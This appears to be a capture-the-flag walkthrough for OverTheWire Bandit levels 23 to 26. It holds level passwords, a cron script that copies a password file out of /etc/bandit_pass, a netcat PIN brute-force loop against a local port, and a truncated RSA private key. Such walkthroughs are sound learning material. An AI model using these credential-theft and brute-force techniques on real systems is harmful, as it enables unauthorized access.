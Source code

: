 ### Level 23 → Level 24
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
<img width="1220" alt="image" src="https://github.com/user-attachments/assets/5369f547-ad7f-44c4-8b29-8ebbbba27be7" />
<img width="708" alt="image" src="https://github.com/user-attachments/assets/b207585f-8c43-47f6-ba64-7d9fa52431fc" />

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.wEpd3miVzZ/password
```

<br><hr><br>

### Level 24 → Level 25
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
<img width="1246" alt="image" src="https://github.com/user-attachments/assets/6c1b41ff-0614-4aec-bed6-349b8147c63a" />
<img width="889" alt="image" src="https://github.com/user-attachments/assets/930a3e06-f903-49e7-80eb-c6558e7b755a" />

```                                         
#!/bin/bash

for i in {0000..9999}
do 
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possible_pins.txt
done

cat possible_pins.txt | nc localhost 30002 > working_port.txt
```

<br><hr><br>

### Level 25 → Level 26
```

```
<img width="1254" alt="image" src="https://github.com/user-attachments/assets/bfd91669-58c4-4fce-a60e-dcbf367c6f89" />
<img width="599" alt="image" src="https://github.com/user-attachments/assets/c890561a-c23b-4b39-b626-844c19e7f4d2" />
<img width="560" alt="image" src="https://github.com/user-attachments/assets/65e424d9-941b-4c5d-ae5a-347e8d3373b4" />


```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
```